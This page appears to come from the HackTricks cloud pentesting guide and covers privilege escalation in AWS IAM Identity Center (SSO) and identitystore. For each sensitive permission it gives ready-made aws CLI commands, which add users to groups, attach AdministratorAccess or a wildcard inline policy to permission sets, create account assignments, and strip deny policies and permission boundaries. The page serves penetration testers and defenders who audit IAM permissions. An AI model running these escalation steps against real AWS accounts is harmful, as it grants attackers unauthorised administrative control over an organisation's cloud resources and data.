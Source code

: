 # AWS - SSO & identitystore Privesc

{{#include ../../../banners/hacktricks-training.md}}

## AWS Identity Center / AWS SSO

For more information about AWS Identity Center / AWS SSO check:

{{#ref}}
../aws-services/aws-iam-enum.md
{{#endref}}

> [!WARNING]
> Note that by **default**, only **users** with permissions **form** the **Management Account** are going to be able to access and **control the IAM Identity Center**.\
> Users from other accounts can only allow it if the account is a **Delegated Adminstrator.**\
> [Check the docs for more info.](https://docs.aws.amazon.com/singlesignon/latest/userguide/delegated-admin.html)

### ~~Reset Password~~

An easy way to escalate privileges in cases like this one would be to have a permission that allows to reset users passwords. Unfortunately it's only possible to send an email to the user to reset his password, so you would need access to the users email.

### `identitystore:CreateGroupMembership`

With this permission it's possible to set a user inside a group so he will inherit all the permissions the group has.

```bash
aws identitystore create-group-membership --identity-store-id <tore-id> --group-id <group-id> --member-id UserId=<user-id>
```

### `sso:PutInlinePolicyToPermissionSet`, `sso:ProvisionPermissionSet`

An attacker with this permission could grant extra permissions to a Permission Set that is granted to a user under his control

```bash
# Set an inline policy with admin privileges
aws sso-admin put-inline-policy-to-permission-set --instance-arn <instance-arn> --permission-set-arn <perm-set-arn> --inline-policy file:///tmp/policy.yaml

# Content of /tmp/policy.yaml
{
	"Version": "2012-10-17",
	"Statement": [
		{
			"Sid": "Statement1",
			"Effect": "Allow",
			"Action": ["*"],
			"Resource": ["*"]
		}
	]
}

# Update the provisioning so the new policy is created in the account
aws sso-admin provision-permission-set --instance-arn <instance-arn> --permission-set-arn <perm-set-arn> --target-type ALL_PROVISIONED_ACCOUNTS
```

### `sso:AttachManagedPolicyToPermissionSet`, `sso:ProvisionPermissionSet`

An attacker with this permission could grant extra permissions to a Permission Set that is granted to a user under his control

```bash
# Set AdministratorAccess policy to the permission set
aws sso-admin attach-managed-policy-to-permission-set --instance-arn <instance-arn> --permission-set-arn <perm-set-arn> --managed-policy-arn "arn:aws:iam::aws:policy/AdministratorAccess"

# Update the provisioning so the new policy is created in the account
aws sso-admin provision-permission-set --instance-arn <instance-arn> --permission-set-arn <perm-set-arn> --target-type ALL_PROVISIONED_ACCOUNTS
```

### `sso:AttachCustomerManagedPolicyReferenceToPermissionSet`, `sso:ProvisionPermissionSet`

An attacker with this permission could grant extra permissions to a Permission Set that is granted to a user under his control.

> [!WARNING]
> To abuse these permissions in this case you need to know the **name of a customer managed policy that is inside ALL the accounts** that are going to be affected.

```bash
# Set AdministratorAccess policy to the permission set
aws sso-admin attach-customer-managed-policy-reference-to-permission-set --instance-arn <instance-arn> --permission-set-arn <perm-set-arn> --customer-managed-policy-reference <customer-managed-policy-name>

# Update the provisioning so the new policy is created in the account
aws sso-admin provision-permission-set --instance-arn <instance-arn> --permission-set-arn <perm-set-arn> --target-type ALL_PROVISIONED_ACCOUNTS
```

### `sso:CreateAccountAssignment`

An attacker with this permission could give a Permission Set to a user under his control to an account.

```bash
aws sso-admin create-account-assignment --instance-arn <instance-arn> --target-id <account_num> --target-type AWS_ACCOUNT --permission-set-arn <permission_set_arn> --principal-type USER --principal-id <principal_id>
```

### `sso:GetRoleCredentials`

Returns the STS short-term credentials for a given role name that is assigned to the user.

```
aws sso get-role-credentials --role-name <value> --account-id <value> --access-token <value>
```

However, you need an access token that I'm not sure how to get (TODO).

### `sso:DetachManagedPolicyFromPermissionSet`

An attacker with this permission can remove the association between an AWS managed policy from the specified permission set. It is possible to grant more privileges via **detaching a managed policy (deny policy)**.

```bash
aws sso-admin detach-managed-policy-from-permission-set --instance-arn <SSOInstanceARN> --permission-set-arn <PermissionSetARN> --managed-policy-arn <ManagedPolicyARN>
```

### `sso:DetachCustomerManagedPolicyReferenceFromPermissionSet`

An attacker with this permission can remove the association between a Customer managed policy from the specified permission set. It is possible to grant more privileges via **detaching a managed policy (deny policy)**.

```bash
aws sso-admin detach-customer-managed-policy-reference-from-permission-set --instance-arn <value> --permission-set-arn <value> --customer-managed-policy-reference <value>
```

### `sso:DeleteInlinePolicyFromPermissionSet`

An attacker with this permission can action remove the permissions from an inline policy from the permission set. It is possible to grant **more privileges via detaching an inline policy (deny policy)**.

```bash
aws sso-admin delete-inline-policy-from-permission-set --instance-arn <SSOInstanceARN> --permission-set-arn <PermissionSetARN>
```

### `sso:DeletePermissionBoundaryFromPermissionSet`

An attacker with this permission can remove the Permission Boundary from the permission set. It is possible to grant **more privileges by removing the restrictions on the Permission Set** given from the Permission Boundary.

```bash
aws sso-admin   delete-permissions-boundary-from-permission-set --instance-arn <value> --permission-set-arn <value>
```

{{#include ../../../banners/hacktricks-training.md}}






